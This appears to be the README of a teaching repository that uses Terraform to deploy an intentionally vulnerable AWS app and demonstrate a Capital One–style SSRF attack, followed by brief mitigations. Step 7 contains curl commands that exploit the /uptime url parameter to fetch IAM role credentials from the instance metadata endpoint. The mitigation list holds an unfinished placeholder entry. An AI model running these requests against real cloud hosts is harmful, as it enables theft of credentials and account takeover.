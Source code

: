 # SSRF vulnerablity demo
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)![Terraform](https://img.shields.io/badge/terraform-%235835CC.svg?style=for-the-badge&logo=terraform&logoColor=white)

## Demo diagram 
![Diagram]()

## Purpose
Demonstrating a Server Side Request Forgery (SSRF) attack in AWS environment , similar to the [CapitalOne breach](https://www.capitalone.com/digital/facts2019/).
The environment will be deployed with Terraform IaC module.



## Prerequisites
* Active AWS account.
* AWS IAM user with AWS credential type: ["Access key - Programmatic access"](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) and [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

*  [Terraform installed](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* Clone this repo to the environmnet which you run terraform from : 
```ShellSession
git clone https://github.com/ramibo/ssrf_aws_demo.git 
```

* Optional - In the following files ,set the paramters with your values :  
main.tf: `availability_zone` , `resource "aws_key_pair"{public_key}`  
providers.tf: `shared_config_files`,`shared_credentials_files` `profile` , `region`



## Running the demo

1. `cd` to the  `ssrf_aws_demo` directory.
2. Run `terraform init` command to prepare your working directory for next commands.
3. Run `terraform validate` command check whether the configuration is valid.
4. Run `terraform plan` command show changes required by the current configuration.
5. Run `terraform apply` / `terraform apply -auto-approve` to create / update the infrastructure at AWS
6. If there no errors from the prvious steps , from your terminal run the following:
__Important !__ - The `host` can be the created ec2 instance [Public IPv4 address / DNS ](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-instance-addressing.html#concepts-public-addresses).
```ShellSession
bash$ curl -s http://host:5000 
AWS SSRF IMDSv1 demo
```
7. The `/uptime` page is vulnerable to an SSRF attack, we will utilize the url parameter with the instance metadata URI --> retrieve the attached role --> extract the security credentials as following:
```ShellSession
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssrf_demo_iam_role
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-20T20:56:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIASF",
  "SecretAccessKey" : "Id+zUu",
  "Token" : "IQoJb3JpZ2luX2VjEEUaCXVzLW",
  "Expiration" : "2022-12-21T03:31:14Z"
}
```

8. 
## Mitigation Steps

1. Enabling IMDS version 2 of the service

2. Fix the application by sanitize/validate all client-supplied input data.

3. dfgsd

## Refrences
* [FreeCodeCamp - Learn Terraform (and AWS) by Building a Dev Environment – Full Course for Beginners](https://www.youtube.com/watch?v=iRaai1IBlB0)
* [An SSRF, privileged AWS keys and the Capital One breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [How to hack AWS instances that have the metadata service (IMDSv1) enabled](https://alexanderhose.com/how-to-hack-aws-instances-with-the-metadata-service-enabled/)